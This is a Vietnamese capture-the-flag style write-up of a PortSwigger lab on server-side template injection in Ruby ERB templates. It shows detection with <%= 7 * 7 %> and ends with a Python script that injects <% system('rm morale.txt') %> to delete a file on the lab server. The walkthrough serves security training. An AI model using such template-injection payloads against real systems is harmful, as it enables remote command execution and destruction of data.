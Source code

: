 ### Phân tích

- Theo thông tin thì bài lab này chứa lỗi SSTI. Để solve được bài lab thì mình phải xóa file morale.txt từ thu mục home của Carlos.
- Mình chọn mục sản phẩm đầu tiên thì thấy có lệnh GET của message và chuyển hướng với nội dung là Unfortunately this product is out of stock. Và nội dung đó cũng được in ra bên ngoài màn hình.

![image](https://hackmd.io/_uploads/rylNZUXq6.png)

![image](https://hackmd.io/_uploads/Bkc8bIm9T.png)

message trả về có ở parameter trên URL -> Có thể dính XSS hoặc SSTI. Nhưng khi test XSS thì không thành công vì đã bị encode.

![image](https://hackmd.io/_uploads/HyuIMI7qp.png)

- mình thay đổi tham số parameter thì nội dung cũng thay đổi và hiện ra tương ứng vậy là chúng ta điều này có nghĩa là mình có thể điều chỉnh biến message này tùy theo ý của mình để server có thể hiện ra dòng chữ tương ứng

- ERB(Embedded Ruby) là một dạng template thường được dùng để nhúng Ruby vào một tài liệu HTML, và sử dụng các tag để phân biệt cách sử dụng nó truyền vào.
  - **<%= EXPRESSION %>** dùng để truyền vào giá trị của một phép diễn tả
  - **<% CODE %>** dùng để thực thi code, không truyền vào được giá trị.

### Khai thác

mình dùng payloadsallthething để test

![image](https://hackmd.io/_uploads/HJ1N4LQcp.png)

- mình thử truyền vào payload là <%= 7 \* 7 %>, vì với tag expression này trang nếu trang web này trả về kết quả của phép tính trên nghĩa là trang web này chứa lỗ hổng SSTI:

![image](https://hackmd.io/_uploads/HJZFE8Xqp.png)

mình dùng `ls` để liệt kê các file, thư mục và thấy file `morale.txt` cần xóa

![image](https://hackmd.io/_uploads/BJoh4IX96.png)

sau đó mình xóa file này

![image](https://hackmd.io/_uploads/S1aNr8mq6.png)

mình cũng đã viết lại script khai thác

```python
#!/usr/bin/python3.7
import requests
from bs4 import BeautifulSoup
from urllib.parse import quote

url = 'https://0ad20051037dfa0f80142b7e001f00d5.web-security-academy.net'

session = requests.Session()

response = session.get(
    url + '/?message=<%+system("rm+morale.txt")%>',
)

soup = BeautifulSoup(response.text,'html.parser')
print(soup)
```
